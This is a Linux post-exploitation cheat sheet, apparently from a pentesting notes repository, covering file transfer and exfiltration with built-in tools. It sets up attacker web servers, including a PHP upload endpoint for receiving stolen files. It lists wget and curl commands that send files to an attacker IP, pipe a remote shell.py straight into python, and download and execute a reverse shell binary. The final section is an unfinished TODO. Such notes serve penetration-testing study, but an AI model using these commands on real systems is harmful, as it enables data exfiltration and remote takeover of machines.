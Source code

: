 # Living off the Land

Search Tag(s): #post-exploitation #file-transfer-and-data-exfiltration #living-off-the-land #linux

## 01 - Server Setup

### 1.1 - Python

Note: by default it runs the service with port 8000 if it is not specified

```
$ sudo python2 -m SimpleHTTPServer 80

$ sudo python3 -m http.server 80
```

### 1.2 - Ruby

Note: you'll need to install webrick for ruby (by default it'll use port 8080 if port is not specified)

To install the ruby gem:

```
$ gem install webrick
```

To install in Debian/Ubuntu

```
$ sudo apt install ruby-webrick
```

Host a webserver via Ruby

```
$ sudo ruby -run -ehttpd . -p80
```

### 1.3 - PHP

Data exfiltration server side.

```php
<?php
/*
$ sudo mkdir -p /var/www/html/uploads/ && \
sudo chown www-data:www-data /var/www/html/

$ curl <-F | --form> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php

$ curl <-T | --upload-file> fileToUpload=@file.txt http[s]://<attacker_IP>/upload.php
*/

$target_directory = "uploads/"
$target_file = $target_directory . basename($_FILES["fileToUpload"]["name"]);

echo "Source=" . $_FILES["fileToUpload"]["name"] . "<br/>";
echo "Target path=" . $target_directory . "<br/>";
echo "Size=" . $_FILES["fileToUpload"]["size"] . "<br/>";

if(move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
    echo "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded";
} else {
    echo "There was an error uploading the file, please try again!";
}
?>


<!DOCTYPE html>
<html>
    <body>
        <form method="post" enctype="multipart/form-data">
            Select File to upload:
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" name="Upload">
        </form>
    </body>
</html>
```

To install in Debian/Ubuntu

```
$ sudo apt install apache2

$ sudo apt install nginx
```

Host a webserver via PHP

```
$ sudo php -S 0.0.0.0:80

$ sudo systemctl start apache2

$ sudo systemctl start nginx
```

## 02 - Usage

### 2.1 - Download

#### 2.1.1 - `wget`

```
$ wget -O rsh.php http://<IP>:<PORT>/shell.php

$ wget --no-check-certificate https://<IP>/file.tar.gz
```

Resume partially downloaded file.

```
$ wget -c http://<IP>/file.tar.gz
```

Download multiple files with different URLs from a text file list.

```
$ wget -i download-files-urls.txt
```

#### 2.1.2 - cURL

```
$ curl -O -C - http://<IP>:<PORT>/shell.php

$ curl -o rsh.php http://<IP>:<PORT>/shell.php

$ curl -o downloaded.tar.gz http[s]://<IP>/file.tar.gz
```

Interact with http proxy server tunnel.

```
$ curl -p -x http://<proxy_IP> http://website.com
```

#### 2.1.3 - `aria2c`

```
$ aria2c http://<IP>/file.tar.gz
```

### 2.2 - Upload

#### 2.2.1 - `wget`

```
$ wget --post-file=file.txt <attacker_IP>

$ sudo nc -lnvp 80
```

#### 2.2.2 - cURL

```
$ curl -T /path/to/file.txt http[s]://<IP>
```

Upload file via POST request form.

```
$ curl -F file=@/path/to/file.txt http[s]://<IP>/post
```

Upload file via POST HTTP request.

```
$ curl -X POST -d @/path/to/file.txt <IP>

$ sudo nc -lnvp 80 > file.txt
```

### 2.3 - Callback Shell

#### 2.3.1 - Fileless execution

```
$ curl http[s]://<IP>/shell.py | python
```

If the machine doesn't have `curl` installed you can use `wget` to execute it through memory.

```
$ wget -qO- http[s]://<IP>/shell.py | python
```

#### 2.3.2 - Dropping on disk

Download reverse shell binary and execute it.

```
$ curl -o shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf

$ wget -O shell.elf http[s]://<IP>/shell.elf && chmod +x shell.elf && ./shell.elf
```

#### 2.3.3 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```